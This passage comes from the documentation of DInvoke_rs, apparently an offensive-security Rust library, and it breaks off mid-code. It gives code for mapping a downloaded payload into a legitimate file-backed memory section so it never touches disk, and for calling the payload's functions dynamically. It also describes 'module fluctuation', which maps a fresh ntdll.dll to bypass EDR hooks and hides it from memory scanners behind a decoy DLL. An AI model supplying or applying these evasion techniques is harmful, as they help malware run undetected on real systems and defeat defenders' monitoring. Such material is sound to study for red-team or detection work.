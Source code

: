 This overload can also be executed mapping a PE from memory (as it is shown in the following example), allowing to perform the overload without writing the payload to disk.

```rust

use dinvoke_rs::data::PeMetadata;

fn main() {

    unsafe 
    {

        let payload: Vec<u8> = your_download_function();

        // This will map your payload into a legitimate file-backed memory section.
        let overload: (PeMetadata, isize) = dinvoke_rs::overload::overload_module(payload, "").unwrap();
        
        // Then any exported function of the mapped PE can be dynamically called.
        // Let's say we want to execute a function with header pub fn random_function(i32, i32) -> i32
        let func_ptr:  unsafe extern "Rust" fn (i32, i32) -> i32; // Function header
        let ret: Option<i32>; // The value that the called function will return
        let parameter1: i32 = 10;
        let parameter2: i32 = 20;
        dinvoke_rs::dinvoke::dynamic_invoke!(overload.1,"random_function",func_ptr,ret,parameter1,parameter2);

        match ret {
            Some(x) => 
                println!("The function returned the value {}", x),
            None => panic!("[x] Error!"),
        }

    }
}

```

## Module fluctuation
DInvoke_rs allows to hide mapped PEs when they are not being used, making it harder for EDR memory inspection to detect the presence of a suspicious dll in your process. 

For example, lets say we want to map a fresh copy of ntdll.dll in order to evade EDR hooks. Since two ntdll.dll in the same process could be considered a suspicious behaviour, we can map ntdll and hide it whenever we are not using it. This is very similar to the shellcode fluctuation technique, althought in this scenario we can take advantage of the fact that we are mapping a PE into a legitimate file-backed memory section, so we can replace the ntdll's content for the original decoy module's content that the section is pointing to.

```rust

use dinvoke_rs::dmanager::Manager;

fn main() {

    unsafe 
    {

        // The manager will take care of the hiding/remapping process and it can be used in multi-threading scenarios 
        let mut manager = Manager::new();

        // This will map ntdll.dll into a memory section pointing to cdp.dll. 
```
